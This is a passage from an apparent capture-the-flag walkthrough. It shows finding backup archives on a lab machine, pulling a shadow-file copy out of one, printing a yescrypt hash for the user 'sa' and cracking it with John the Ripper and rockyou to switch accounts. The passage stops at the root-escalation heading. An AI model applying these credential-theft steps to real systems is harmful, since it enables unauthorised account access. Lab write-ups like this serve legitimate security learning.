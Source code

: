 Now that we have the user flag, we can enumerate a little further into the machine.

I dropped [Linpeas](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS) to disk to find the next part of the attack path, though you probably won't need it. In the root directory of this machine, you'll find an abnormal `backups` folder that isn't common to be seen here. Within the folder itself, you'll see a list of backups for the machine.

```
jennifer@ip-10-10-200-238:/backup$ ls
1717273681.zip  1717274041.zip  1717274401.zip  1717274761.zip  1717275121.zip  1717275481.zip
1717273801.zip  1717274161.zip  1717274521.zip  1717274881.zip  1717275241.zip  1717275601.zip
1717273921.zip  1717274281.zip  1717274641.zip  1717275002.zip  1717275361.zip
```

I downloaded the first one back to my machine by standing up a Python server on the local SSH session. The first archive's filename is `1717273681.zip`, and after decompressing it you'll find a few interesting files.

```
└─$ ls
httpd  passwd  rsyncd.conf  shadow

└─$ cat shadow
......
sa:$y$j9T$jJFOBCaiGJUmyZZRFn5aG1$7pSWDUlnIOlXInoK4nn3gCEIiMp94x8sXaV.DtTzM6D:19468:0:99999:7:::
```

It seems that a backup of the `shadow` file was generated and placed within this archive. We can see the hash of the `sa` user, one of the users that was within the `/home` directory.

I've dealt with these hashes before, and due to the `$y$` delimiter in front of the hash means that it is a `yescrypt` hash. These aren't able to be cracked through `hashcat` as I believe it does not support `yescrypt` hashes. There is a format in `JTR` that should be able to decrypt it properly.

```
└─$ john sa.txt --format=crypt --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (crypt, generic crypt(3) [?/64])
Cost 1 (algorithm [1:descrypt 2:md5crypt 3:sunmd5 4:bcrypt 5:sha256crypt 6:sha512crypt]) is 0 for all loaded hashes
Cost 2 (algorithm specific iterations) is 1 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
[...snip...]           (?)     
1g 0:00:00:04 DONE (2024-06-01 16:59) 0.2277g/s 43.73p/s 43.73c/s 43.73C/s daniela..november
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Viewing the above, you can see that we were successfully able to decrypt this user's hash and can now determine whether we can log in as them or not. If you run `su sa` and user their password, you should be able to login successfully.

# Escalation to Root
